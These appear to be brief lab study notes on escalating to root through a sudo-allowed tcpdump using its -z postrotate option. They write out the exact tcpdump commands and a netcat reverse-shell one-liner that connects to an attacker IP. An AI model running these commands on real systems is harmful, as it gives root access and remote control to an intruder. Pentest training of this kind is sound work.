




tcpdump
NOT TESTED1. Target: List of programs the actual user is allowed to run:
 We need to to do a research for each program that allow "sudo" and check if we can abuse its functionality
3. Target: go to
GTFOBins (
https://gtfobins.github.io/) and if we do not find anything, then search if we can abuse his functionality
 Attacker can take advantage of a the
postrotate-command option of tcpdump
 4. By specifying the -z flag, an attacker could use tcpdump to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script .test containing a reverse shell and execute it as follows
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
5. Edit the file that we will give to tcpdump (/tmp/.test)
Add a reverse shell to it
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
6. Start a netcat listener on the attacker
7. start a netcat listener on our attacking box run tcpdump as root with the postrotate-command
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
8. we should have got a reverse shell
Bibliography•
https://academy.hackthebox.com/